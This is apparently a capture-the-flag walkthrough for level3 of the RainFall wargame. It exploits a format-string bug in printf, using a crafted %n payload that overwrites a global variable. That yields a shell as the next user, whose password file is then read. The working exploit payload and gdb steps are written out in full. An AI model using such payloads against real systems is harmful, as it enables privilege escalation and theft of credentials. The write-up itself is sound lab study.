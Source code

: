 # Walkthrough level3

In this binary we have `fgets()` who is called with a size to read of 512 and
our buffer can store 520 chars. We don't have a buffer overflow but we can see
our buffer is used in the format string of printf:

```bash
level3@RainFall:~$ ./level3
%p
0x200
```

This is potientialy [insecure](https://owasp.org/www-community/attacks/Format_string_attack)
and we are going to exploit this to change the return value of printf to 64.

`printf("%n")` write number of chars print before '%n' and write it
in the value pointed.

payload = "\<address of var to change\> + 60 chars" + "%n"

Check if the address is set:

```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%08x ' * 5)" | ./level3
00000200 b7fd1ac0 b7ff37d0 0804988c 78383025
```

Now we are trying to change the return value of printf. Place a breakpoint,
create the payload, run gdb with the payload as argument and check the return
value:

```gdb
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
=> 0x080484df <+59>:    cmp    eax,0x40

level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%08x ' * 3 + '%n')" > /tmp/test

(gdb) r < /tmp/test
(gdb) p $eax
$3 = 31

```

Do the same thing but set the value to 64:

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%08x ' * 3 + 'A' * 33 + '%n')"; cat ) | ./level3
00000200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
